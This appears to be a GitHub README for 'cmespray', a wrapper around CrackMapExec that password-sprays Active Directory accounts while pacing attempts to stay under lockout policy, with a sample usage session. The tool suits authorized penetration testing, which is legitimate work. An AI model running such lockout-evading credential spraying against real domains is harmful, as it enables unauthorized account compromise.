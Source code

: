 # cmespray
Password spray Active Directory accounts with [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) according to reset counter and lockout threshold policies

### Usage
```
[user::cmespray]$ ./cmespray.sh 
Enter the 'Reset Account Lockout Counter After' value: 15
Enter the 'Account Lockout Threshold' value: 3
Enter the Domain Controller IP Address: 192.168.1.100
Enter path to a password list: passwords.txt
Enter path to domain users list: users.txt
[*] Trying 2 passwords every 16 minutes against 192.168.1.100 and using passwords.txt and users.txt lists.
```

